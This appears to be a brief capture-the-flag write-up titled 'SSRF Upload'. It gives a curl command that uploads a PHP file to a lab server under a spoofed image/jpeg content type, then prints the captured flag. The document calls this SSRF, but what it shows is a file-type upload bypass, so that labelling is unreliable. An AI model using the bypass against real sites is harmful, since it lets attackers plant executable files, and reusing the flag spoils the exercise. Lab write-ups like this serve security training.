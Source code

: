 # SSRF Upload

Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing.

## Notes

Form enctype="multipart/form-data"

```bash
curl -H 'Content-Type: multipart/form-data' -F 'Upload=Upload' -F 'uploaded=@test.php;type=image/jpeg' -X POST http://172.20.10.9/\?page\=upload -o save.txt
```

The flag is: 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8

## PROBLEM FOUND:

Changing the file type, that we are going to upload, we can succesfully set any file.

## Info

[curl](https://gist.github.com/subfuzion/08c5d85437d5d4f00e58
[kontra](https://application.security/free-application-security-training/server-side-request-forgery-in-capital-one
[ssrf](https://portswigger.net/web-security/ssrf
[flag](http://www.javascriptkit.com/javatutors/valid2.shtml

